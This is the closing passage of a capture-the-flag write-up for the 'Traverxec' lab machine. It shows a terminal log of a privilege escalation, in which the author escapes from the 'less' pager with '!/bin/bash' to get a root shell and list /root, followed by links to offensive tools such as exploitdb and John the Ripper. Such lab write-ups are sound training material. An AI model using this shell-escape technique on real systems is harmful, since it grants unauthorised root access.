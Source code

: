 

As we can see we cath the execution of ***less*** command:

```bash
Apr 23 10:18:41 traverxec nhttpd[458]: max. file descriptors = 1040 (cur) / 1040 (max)
!/bin/bash
root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david/bin# ls /root
nostromo_1.9.6-1.deb  root.txt
root@traverxec:/home/david/bin#
```





## Tools used in this post

- https://github.com/offensive-security/exploitdb
- https://github.com/magnumripper/JohnTheRipper

## Terminal Customization 

- https://eugeny.github.io/terminus/

- https://ohmyz.sh/ (afowler theme)

- https://github.com/samoshkin/tmux-config

  

## Reference Links

- https://gtfobins.github.io/